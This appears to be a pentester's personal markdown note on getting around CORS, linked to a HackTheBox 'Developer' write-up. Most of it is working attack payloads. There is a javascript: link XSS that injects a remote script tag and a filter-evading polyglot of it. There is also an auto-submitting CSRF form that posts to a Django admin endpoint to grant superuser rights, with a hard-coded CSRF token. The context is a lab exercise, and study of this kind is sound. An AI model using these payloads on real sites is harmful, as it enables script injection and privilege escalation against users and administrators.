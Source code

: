 # Access-Control-Allow-Origin 

Sites will disallow Javascript requests (post / get) to other sites where no or only specific Access-Control-Allow-Origin Header is set.
We need at least a Header with 
```http
Access-Control-Allow-Origin: *
```


or we need a way to bypass this, the best way would be an xss (for example direct in the link)

```html
<a href="javascript:(onclick=document.write('<script src=http://localhost/sec.js></script>'))">click_me</a>
```


Bypass Filters.

```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=document.write('<script src=http://localhost/sec.js></script>') )//
```

see box: [[../../WriteUps/HackTheBox/Developer/WriteUp]]

another way is to use a HTML Forms, this will not blocked by CORS because the user will be redirected to the site

```HTML
<form action="http://developer.htb/admin/auth/user/2/change/" method="POST" id="test">
		
	<div>
		<input type="text" name="is_superuser" value="on">
		<input type="text" name="name" value="sec77">
		<input type="text" name="csrfmiddlewaretoken" value="gVamrrFZREf10Uw3ZCpwfscKs4AumPKSTh2F22mOeG85QMq5DGTd5u3txlPY8HyK">
		<input type="text" name="date_joined_0" value="2021-10-28">
		<input type="text" name="date_joined_1" value="22:06:03">
		<input type="text" name="_save" value="Save">
	  </div>
	
	<div>
		  <button>Send my greetings</button>
		</div>
	  </form>

<script>
document.getElementById("test").submit();
</script>
```

